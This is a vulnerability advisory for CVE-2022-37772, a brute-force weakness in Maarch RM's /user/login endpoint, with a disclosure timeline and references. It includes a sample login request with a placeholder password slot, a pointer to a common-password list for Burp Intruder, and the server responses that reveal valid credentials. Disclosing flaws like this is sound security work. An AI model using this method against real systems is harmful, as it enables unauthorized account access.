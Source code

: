 # Improper Restriction of Excessive Authentication Attempts

## Description

Improper Restriction of Excessive Authentication Attempts vulnerability exists that could allow unauthorized access when an attacker uses brute force. Affected Products: Maarch RM - all versions.

## Information

- CVE ID: CVE-2022-37772
- Vulnerability Type: Improper Restriction of Excessive Authentication Attempts (CWE-307)
- Vendor of Product: Maarch Xelians
- Affected Product: Maarch RM - all versions
- Affected Component: page: /user/login (POST)
- Editor confirmed: Yes
- Discoverer: François Mehault (francois.mehault -at- proton -dot- me)

# References

- Advisory: https://github.com/frame84/vulns
- CVE: CVE-2022-37772
- Product site: https://maarch.ovh/maarch-rm/
- Release advisories: 
  - https://labs.maarch.org/maarch/maarchRM/-/blob/Support/2.8.X/CHANGELOG.md
  - https://labs.maarch.org/maarch/maarchRM/-/blob/Support/2.9.X/CHANGELOG.md
- ExploitDB: NA

# Approximate Timeline

- 2022/07/18: Vulnerabilities discovered
- 2022/07/29: Vulnerabilities reported to the editor (Maarch Xelians)
- 2022/08/31: Confirmation of vulnerability by the editor
- 2022/10/18: Vendor issued an official fix (Maarch RM 2.8.6 and 2.9.1)

# Technical details

## Improper Restriction of Excessive Authentication Attempts - Identified on Maarch RM 2.8.3, /user/login (POST)

- Vulnerable request :

```
POST /user/login HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
X-Laabs-Csrf: false
Content-Length: 71
Origin: https://target.com
Referer: https://target.com/user/prompt
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"userName":"admin","password":"inject_here","requestPath":"/user/prompt"}
```

- Payload example : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt (sent with Burp Intruder)

- Details : it is possible to conduct a brute force attack on the authentication form due to excessive verbose responses from the application, whether or not a lockout policy is active. If a lockout policy is active, the application informs that the user account is locked out upon presentation of valid credentials. If there is no lockout policy, brute force is by definition possible.

- Privileges: No privilege is required

- error generated with invalid credentials (with or without lockout policy)

```
HTTP/1.1 401 Unauthorized
Date: Mon, 18 Jul 2022 09:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username and / or password invalid in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 82
Connection: close
Content-Type: application/json

{"status":false,"message":"Nom d\u0027utilisateur et \/ ou mot de passe invalide"}
```

- error generated with lockout policy and valid credentials

```
HTTP/1.1 403 Forbidden
Date: Mon, 18 Jul 2022 10:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username  is locked in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 68
Connection: close
Content-Type: application/json

{"status":false,"message":"L\u0027utilisateur  est verrouill\u00e9"}
```

- message generated without lockout policy and valid credentials

```
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 14:53:57 GMT
Server: Apache
Set-Cookie: LAABS-AUTH=<redacted>; expires=Mon, 18-Jul-2022 15:53:57 GMT; Max-Age=3600; path=/; secure; HttpOnly
Set-Cookie: LAABS-CSRF=<redacted>; path=/; secure
X-Laabs-UserStory: app/authentication
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 53
Connection: close
Content-Type: application/json

{"status":true,"message":"Utilisateur connect\u00e9"}
```
